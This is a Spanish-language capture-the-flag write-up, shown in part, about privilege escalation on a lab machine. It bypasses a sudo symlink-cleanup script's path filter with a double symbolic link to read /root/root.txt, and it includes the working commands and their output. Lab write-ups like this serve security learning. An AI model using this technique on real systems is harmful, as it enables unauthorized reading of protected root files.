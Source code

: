 ~~~bash
LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
~~~
Asi que aprovechando esta lógica, se me ocurre que se puede hacer un doble enlace simbólico para en primer lugar leer el archivo root.txt ya que sabemos que ese archivo si existe, y enlazarlo a un png para que el script siga su curso y no pare.
~~~bash
ln -s /root/root.txt print.txt
ln -s /home/bob/print.txt 123.png

ls -la
total 28
drwxr-x--- 3 bob  bob  4096 Oct  5 22:11 .
drwxr-xr-x 3 root root 4096 Nov 30  2024 ..
lrwxrwxrwx 1 root root    9 Apr  1  2024 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 bob  bob  3771 Jan  6  2022 .bashrc
drwx------ 2 bob  bob  4096 Nov  1  2024 .cache
-rw-r--r-- 1 bob  bob   807 Jan  6  2022 .profile
lrwxrwxrwx 1 bob  bob    19 Oct  5 22:11 123.png -> /home/bob/print.txt
lrwxrwxrwx 1 bob  bob    14 Oct  5 22:10 print.txt -> /root/root.txt
~~~

---

## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora al correr el script referenciando el png con doble enlace simbólico deberia poder leer el root.txt, intentando eso: 
~~~bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/123.png
Link found [ /home/bob/123.png ] , moving it to quarantine
Content:
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

